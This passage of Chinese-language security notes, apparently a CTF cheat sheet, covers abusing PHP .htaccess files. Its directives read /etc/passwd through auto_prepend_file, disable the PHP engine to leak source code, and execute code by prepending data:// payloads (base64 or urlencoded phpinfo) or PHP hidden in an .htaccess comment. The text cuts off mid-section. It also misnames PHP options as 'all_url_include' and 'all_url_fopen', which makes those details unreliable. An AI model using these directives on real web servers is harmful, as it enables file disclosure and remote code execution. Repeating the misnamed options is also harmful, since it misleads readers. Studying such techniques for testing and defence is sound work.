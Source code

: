   * 文件包含

    &gt; 本地文件包含

    通过 php_value 来设置 `auto_prepend_file`或者 `auto_append_file` 配置选项包含一些敏感文件，同时**在本目录或子目录中需要有可解析的 php 文件**来触发

    .htaccess 分别通过这两个配置选项来包含 /etc/passwd，并访问同目录下的 index.php文件

    ```
    auto_prepend_file
    ```

    ```
    php_value auto_prepend_file /etc/passwd
    ```

    &gt; 远程文件包含不可以使用.htaccess

    PHP 的 all_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以远程包含。

    因为 all_url_include 的配置范围为 PHP_INI_SYSTEM,所以无法利用 php_flag 在 .htaccess 中开启

  * 源码泄露

    利用 php_flag 将 engine 设置为 0，在本目录和子目录中关闭 php 解析，造成源码泄露

    ```
    php_flag engine 0
    ```

  * 代码执行

    利用伪协议`all_url_fopen`、`all_url_include`为on

    解析.htaccess

    .htaccess (base64 / urlencode)

    写单纯的text文件

    .htaccess内容：

    ```
    php_value auto_prepend_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
    ```

    ```
    php_value auto_prepend_file data://text/plain,%3C%3Fphp&#43;phpinfo%28%29%3B
    ```

    写执行php命令

    .htaccess内容：

    ```
    php_value auto_prepend_file .htaccess #&lt;?php phpinfo();?&gt;
    ```
    
    下面这种适合同目录或子目录没有 php 文件。 需要先设置允许可访问 .htaccess 文件
    
    .htaccess内容：
    